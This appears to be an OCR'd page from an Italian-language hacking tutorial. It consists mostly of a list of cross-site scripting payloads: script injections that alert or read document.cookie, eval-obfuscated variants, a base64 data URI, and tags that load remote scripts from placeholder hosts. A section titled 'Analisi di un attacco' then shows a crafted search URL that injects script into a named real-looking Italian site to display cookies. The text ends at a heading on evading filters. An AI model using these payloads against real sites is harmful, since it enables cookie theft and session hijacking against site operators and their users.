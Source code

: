 "></iframe><script>alert(123)</script>

<body onLoad="while(true) alert('XSS');">

'"></title><script>alert(1111)</script>

</textarea>'"><script>alert(document.cookie)</script>

'""><script language="JavaScript"> alert('X \nS \nS');</script>

</script></script><<<<script><>>>><<<script>alert(123)</script>

<html><noalert><noscript>(123)</noscript><script>(123)</script>

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

'></select><script>alert(123)</script>

'>"><script src = 'http://www.site.com/XSS.js'></script>

}</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>

<SCRIPT>document.write("XSS");</SCRIPT>

a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);

='><script>alert("xss")</script>

<script+src=">"+src="http://yoursite.com/xss.js?69,69"></script>

<body background=javascript:'"><script>alert(navigator.userAgent)</script>></body>

">/XaDoS/><script>alert(document.cookie)</script><script

src="http://www.site.com/XSS.js"></script>

data:text/html;charset=utf-7;base64,Ij48L3RpdGxlPjxzY3JpcHQ+YWxlcnQoMTMzNyk8L3NjcmlwdD4=





Code:
[+]Analisi di un attacco

Il sito www.caziotio.it ha un campo search, proviamo a cercare il nostro codice javascript e

l'url generato dovrebbe essere cosÃ¬:

http://www.caziotio.it/default.asp?rif=1&tiporicerca=2&strRicerca1=
%22%3E%3Cscript%3Ealert('prova');%3C/script%3E&strRicerca2=
&strRicerca3=&sel1=AND&sel2=AND&RicInt1=1&RicInt2=0&RicInt3=0

Vediamo che la variabile strRicerca1 contiene il nostro codice. Proviamo a Passarlo

direttamente e togliere le parti superflue:

http:www.caziotio.it/default.asp?rif=1&tiporicerca=2&str
Ricerca1="><script>alert(document.cookie);</script>

Ecco che â€œForseâ€ vedremo i nostri cookie apparire a schermo.





Code:
[+]Come Eludere I Filtri
